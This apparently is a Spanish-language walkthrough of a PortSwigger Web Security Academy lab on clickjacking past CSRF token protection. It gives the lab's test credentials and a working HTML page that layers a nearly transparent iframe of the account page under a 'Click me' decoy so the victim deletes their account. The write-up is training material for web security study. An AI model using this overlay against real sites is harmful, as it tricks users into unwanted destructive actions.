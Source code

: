 # Clickjacking

## Lab: Basic clickjacking with CSRF token protection

### Enunciado

**Este laboratorio contiene una funcionalidad de inicio de sesión y un botón para eliminar la cuenta que está protegido con un token CSRF.** Un usuario **hará clic en elementos que muestren la palabra "click" en un sitio web señuelo. Crea un código HTML que incluya la página de cuenta en un iframe y engañe al usuario para que elimine su cuenta.** El laboratorio se considera resuelto **cuando la cuenta sea eliminada.**

**Puedes iniciar sesión en tu propia cuenta con las siguientes credenciales:**

* **Usuario:** `wiener`
* **Contraseña:** `peter`

> La víctima usará **Chrome**, así que prueba tu exploit en **ese navegador**.

### Resolución

Nos logueamos. Viendo el código fuente nos damos cuenta que hay CSRF token para intentar prevenir ese ataque. Vamos a hacer un `<iframe>` y un texto para hacer click.

```
<html>
    <head>  
        <style type="text/css">
            #targetWebsite {
                position:relative;
                width:700px;
                height:700px;
                opacity:0.0001;
                z-index:2;
            }

            #decoyWebsite {
                position:absolute;
                top:495px;
                left:60px;
                z-index:1;
            }
        </style>
    </head>
    <body>
        <div id="decoyWebsite">Click me</div>
        <iframe id="targetWebsite" src="https://0aae00b0048a89418005035e00c30052.web-security-academy.net/my-account"></iframe>
    </body>
</html>

```
